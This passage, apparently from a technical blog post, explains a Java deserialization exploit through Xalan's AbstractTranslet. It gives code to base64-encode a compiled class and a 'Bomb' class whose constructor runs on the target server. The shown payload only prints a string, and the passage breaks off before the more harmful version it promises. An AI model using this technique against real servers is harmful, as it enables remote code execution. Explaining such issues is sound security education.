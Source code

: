 If you want to try this on your own just compile a Java class and use any converter to create a base64 based string out of the content of the class file. You can even create such tool by yourself with some lines of Java code:

{{< highlight java >}}
public class Encoder {

    public static void main(String[] args) throws Exception {
        byte[] classBytes = Files.readAllBytes(new File("target/classes/com/karakun/dev/Bomb.class").toPath());
        byte[] encodedBytes = Base64.getEncoder().encode(classBytes);
        System.out.println(new String(encodedBytes));
    }
}
{{< / highlight >}}

The given code directly prints the base64 encoded string as the output of the program to your terminal. If you want to do this with a class that you can use for the exploit you need to extend a specific class that is defined by xalan. Simply add `org.apache.xalan.xsltc.runtime.AbstractTranslet` class. The 2 abstract methods can be implemented with an empty body they are not used for the exploit. The really interesting part is the constructor of your class. Here you can easily add some custom code like I did in the following sample:

{{< highlight java >}}
public class Bomb extends org.apache.xalan.xsltc.runtime.AbstractTranslet {

    public Bomb() {
      super.transletVersion = CURRENT_TRANSLET_VERSION;

      //Now we can do evil stuff
      System.out.println("BOOOOOOOOM!");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
      // empty
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
      // empty
    }
}
{{< / highlight >}}

If you transform such a class to a base64 string as described above and send it to your server application the constructor of your custom class will be called on the server. With the given example the server would print "BOOOOOOOOM!" as output in the terminal. Before we have a look at the internals and how this is even possible think about the evil potential of this security issue. Instead of just printing a funny string we could write an algorithm that does horrible things on your system as you can see in the following code snippet:

{{< highlight java >}}
public Bomb() {
    super.transletVersion = CURRENT_TRANSLET_VERSION;
